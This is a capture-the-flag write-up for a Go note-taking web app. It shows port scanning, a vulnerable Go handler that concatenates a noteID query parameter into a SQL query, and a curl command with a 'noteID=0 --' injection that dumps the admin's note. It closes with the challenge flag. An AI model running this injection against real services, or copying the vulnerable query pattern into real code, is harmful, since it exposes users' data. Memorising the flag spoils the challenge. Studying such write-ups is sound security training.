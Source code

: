 # Scan

Scanning the server has 2 ports that has a related webserver running: `23689` and `42069`. There are 2 Diary challenges which are almost identical.

Later it turns out that `42069` belongs to the first challenge.

# Website

It has a website with accounts and note creation. 

![](screenshots/1.png)

The notes are created with markdown syntax.


![](screenshots/2.png)

After creating a note, it can be viewed as pdf.

The flag is stored in the `admin` user's note. 

# PDF generation

The backend is written in go and handling the accounts and notes. The pdf is generated with a markdown to html and html to pdf all inside the go program.

Both the html and pdf generation libraries are quite basic. After chefcking the source code, there seems to be no parsing error or injection vector that could help there. 

# SQL injection

When rendering the notes, there is an option to inject in the noteID field, from directly the query parameters.

```go
func renderNote(w http.ResponseWriter, r *http.Request) {
  //redacted
	noteID := r.URL.Query().Get("noteID")
  //redacted
  go func() {
		var title string
		var content string
		err := db.QueryRow("SELECT title, content FROM notes WHERE id = "+noteID+" AND username = '"+username+"'").Scan(&title, &content)
    //redacted
		pdfBytes, err := renderPDF(title, content)
		queryResult <- struct {
			title     string
			content   string
			pdfBytes  []byte
			queryErr  error
			renderErr error
		}{title, content, pdfBytes, nil, err}
	}()
  //redacted
}

```

Registering as any user and grabbing an auth JWT token, it is possible to dump anyone's notes.

```bash
curl -v -G -X GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhIiwiZXhwIjoxNzI3NzE3MTI0fQ.FG1U8dHq3La0h19zyGIYEeaka8bYR5dcexHqIa0w-6A' 'http://10.10.1.10:42069/notes/render' --data-urlencode 'noteID=0 --' --output ./flag.pdf
```

![](screenshots/3.png)

The exploit is not working on the other port, this is how you could differentiate which port belongs to which challenge.

# Flag

CQ24{4nd_Th3rE_1_Th0ughT_r3gEx3s_4r3_s@f3}